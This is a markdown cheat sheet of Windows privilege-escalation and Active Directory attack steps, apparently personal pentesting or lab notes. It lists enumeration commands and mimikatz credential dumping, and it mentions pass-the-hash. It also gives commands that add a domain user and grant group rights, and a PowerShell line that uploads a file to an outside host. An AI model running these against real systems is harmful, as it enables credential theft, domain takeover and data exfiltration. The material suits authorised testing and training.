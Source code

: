 # Windows PrivEsc 

**Step 1** 

Review PrivEsc Mind map

https://github.com/hxhBrofessor/PrivEsc-MindMap/blob/main/windows-mindMap.JPG 

**Step 2** 

Look around the file system!!! 

Check installed programs in `C:\Program Files` or `C:\Program Files (x86)`

**Step 3** 

Determine architecure
`systeminfo` 
or 
`$Env:PROCESSOR_ARCHITECTURE` 

*AMD64 for 64-bit and x86 for 32-bit*

**Step 4**
Run [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

**Step 5**
Run [adPEAS](https://github.com/61106960/adPEAS)

**Step 6**
Begin manual review if still no leads 

## Active Directory Methodology 
https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/red-offensive/testing-methodology/active-directory

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

What users are on the domain? net users /domain
What groups are configured on the domain? net group /domain
Who are the administrators (domain admins?) net group "Domain Admins"
What SPNs are configured on the host? GetSPNs.py 

Kerberoasting - List out the SPNs on the domain and if there are any that are specifically calling to another host/port within the domain, could be kerberoastable.

Kerberoasting - List out the SPNs on the domain and if there are any that are specifically calling to another host/port within the domain, could be kerberoastable.

Credentials in Memory - run mimikatz and see if any of the accounts you enumerated at first show up. Try cracking the NTLM hash, or passing the hash through something like psexec.py or evil-winrm.

## Basics 

[Manual Enum Guide](https://fuzzysecurity.com/tutorials/16.html)

[Password Attacks](https://medium.com/@kuwaitison/local-password-attack-and-credentials-theft-for-windows-linux-5764a1a25363)

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

`whoami /all` 

`whoami /groups` 

`whoami /priv` 

`net users` 

`net localgroup`

`netstat -ano` 

`dsacls "DC=htb,DC=local"` 

## Scheduled Tasks 

### generate file 
`schtasks /query /fo LIST /v > scheduled-task.txt`

### transfer off Windows
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.49.192/upload.php', 'scheduled-task.txt')` 

### Grep results on Kali
`grep -i "SYSTEM" scheduled-task.txt -B 5 -A 5` 

## Services 

`wmic service list brief` 

`tasklist /v /fi "username eq system` 

`sc query state= all | findstr "SERVICE_NAME:" >> Services.txt` 

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` 

## AlwaysInstallElevated 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` 

## AD Commands to run

`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

(Pass the Hash)[https://cesidt.medium.com/pass-the-hash-techniques-92e46f28af89]

### Users
`net user`
`net user hacker password /add /domain` 

### Groups 
`net group "group name"`

`net group "Exchange Windows Permissions" /add account_name` 

## Passwords
### powershell recursive grep like search
`ls -R -Hidden -EA SilentlyContinue | select-string <search string>`

### Get password hashes from mimi. 
`lsadump:​:lsa /patch`

## Metasploit module for exploit suggestions
`post/multi/recon/local_exploit_suggester` 

## Tools to run
(Watson for kernel exploit suggestions)[https://github.com/rasta-mouse/Watson, https://0xdf.gitlab.io/2019/03/05/htb-devel.html]
(Bloodhound)[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux]
(Powerview)[https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview]
(Windows exploit suggester)[https://github.com/AonCyberLabs/Windows-Exploit-Suggester]
(Sherlock)[https://github.com/rasta-mouse/Sherlock](How to use Sherlock)[https://0xdf.gitlab.io/2021/03/17/htb-optimum.html]
(JAWS)[https://github.com/411Hall/JAWS]

